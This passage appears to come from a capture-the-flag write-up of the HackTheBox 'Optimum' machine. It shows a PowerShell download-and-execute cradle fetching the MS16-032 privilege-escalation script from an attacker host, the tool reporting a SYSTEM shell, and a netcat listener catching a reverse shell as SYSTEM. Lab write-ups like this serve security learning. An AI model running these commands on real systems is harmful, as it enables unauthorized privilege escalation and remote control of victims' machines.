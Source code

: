     
    
    PS C:\Users\kostas\Desktop> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Invoke-MS16032.ps1')
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]
    
    [!] Holy handle leak Batman, we have a SYSTEM shell!!
    

There’s a request right away for `Invoke-MS16032.ps1`. Once that last message
pops, there’s another request for `rev.ps1`, and then a shell at `nc`:

    
    
    oxdf@parrot$ sudo nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49244
    whoami
    nt authority\system
    PS C:\Users\kostas\Desktop>
    

And I can grab `root.txt`:

    
    
    PS C:\users\administrator\desktop> type root.txt
    51ed1b36************************
    

[](/2021/03/17/htb-optimum.html)

